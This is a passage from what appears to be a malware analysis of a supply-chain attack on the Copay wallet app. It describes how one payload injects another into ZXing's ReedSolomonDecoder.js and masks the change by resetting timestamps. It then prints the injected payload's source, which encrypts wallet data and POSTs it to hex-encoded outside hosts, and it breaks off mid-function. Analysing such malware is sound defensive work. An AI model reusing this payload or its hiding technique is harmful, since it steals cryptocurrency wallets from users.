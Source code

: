 The regex from line 4 tests if `script-name` starts with
`'build:'` and ends with `'-release'`. The regex was
designed to test for scripts that target the Android, iOS, and desktop
versions of Copay.

The Copay application has another non-malicious dependency called
`ZXing`. This module imports `ReedSolomonDecoder.js`, which is
being targeted by payload B for the injection. In particular, the code
of payload C will be injected into the `ReedSolomonDecoder.js` file
by modifying the file on disk. However, this file is accessed in the
context that the malicious script is intended to be run in. If the file
has not been modified, payload B does nothing. If it does,
`'/*@@*/'` appears in the file and payload C is injected into the
file, awaiting execution. After the injection occurs, payload B replaces
the metadata of the file (modified/accessed timestamps) so that it
appears like the file has not been altered.

# Attack Payload C 

```javascript
/*@@*/
! function() {
  function e() {
      try {
          var o = require("http"),
              a = require("crypto"),
              c = "<A public key>";

          function i(e, t, n) {
              e = Buffer.from(e, "hex").toString();
              var r = o.request({
                  hostname: e,
                  port: 8080,
                  method: "POST",
                  path: "/" + t,
                  headers: {
                      "Content-Length": n.length,
                      "Content-Type": "text/html"
                  }
              }, function() {});
              r.on("error", function(e) {}), r.write(n), r.end()
          }

          function r(e, t) {
              for (var n = "", r = 0; r < t.length; r += 200) {
                  var o = t.substr(r, 200);
                  n += a.publicEncrypt(c, 
                  Buffer.from(o, "utf8")).toString("hex") + "+"
              }
              i("636f7061796170692e686f7374", e, n), 
              i("3131312e39302e3135312e313334", e, n)
          }

          function l(t, n) {
              if (window.cordova) try {
                  var e = cordova.file.dataDirectory;
                  resolveLocalFileSystemURL(e, function(e) {
                      e.getFile(t, {
                          create: !1
                      }, function(e) {
                          e.file(function(e) {
                              var t = new FileReader;
                              t.onloadend = function() {
```